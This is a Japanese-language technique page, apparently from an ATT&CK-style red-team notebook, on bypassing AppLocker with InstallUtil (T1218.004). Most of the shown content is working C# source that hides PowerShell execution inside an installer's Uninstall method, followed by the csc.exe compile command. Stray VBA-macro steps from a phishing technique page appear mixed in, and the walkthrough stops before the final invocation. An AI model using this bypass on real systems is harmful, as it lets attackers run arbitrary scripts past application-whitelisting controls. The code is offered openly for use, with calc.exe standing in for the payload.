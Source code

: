 # T1218.004 - InstallUtil

InstallUtil
-------------

InstallUtil を用いた AppLocker のバイパスについて記載します。

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1218.004  |
|  Tactic  |  Defense Evasion |
|  Techniques  |  Signed Binary Proxy Execution  |
|  Sub-techniques  |  InstallUtil |



VBA マクロを操作するために、リボンの設定から「開発」にチェックを入れます。

![T1566.001-1](images/T1566.001-1.png)

追加された開発タブからVisual Basic を選択し、VBA プロジェクトから標準モジュールを挿入します。

![T1566.001-2](images/T1566.001-2.png)

ここではリモート端末にホストされた悪意のあるファイル相当の calc.exe ファイルを取得し実行するマクロを実装します。

AppLocker をバイパスして実行させる ps1 形式の Powershell スクリプトを準備します。
ここでは簡単のために、start-process で電卓を起動させるスクリプトを用意します。
本スクリプトは、AppLocker による Powershell.exe の制限環境では実行することはできません。

![T1218.004-1](images/T1218.004-1.png)

```
using System;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
public class Program
{
    public static void Main()
    {
    }
}
[System.ComponentModel.RunInstaller(true)]
public class Sample : System.Configuration.Install.Installer
{
    public override void Uninstall(System.Collections.IDictionary savedState)
    {
    Mycode.Exec();
    }
}
public class Mycode
{
    public static void Exec()
    {
    string desktop = System.Environment.GetFolderPath(Environment.SpecialFolder.DesktopDirectory) + "\\app_bypass.ps1";
    string command = System.IO.File.ReadAllText(desktop);
    RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
    Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
    rspace.Open();
    Pipeline pipeline = rspace.CreatePipeline();
    pipeline.Commands.AddScript(command);
    pipeline.Invoke();
    }
}
```

```
cmd /c C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll /unsafe /platform:anycpu /out:%USERPROFILE%\Desktop\Program.exe %USERPROFILE%\Desktop\Program.cs

```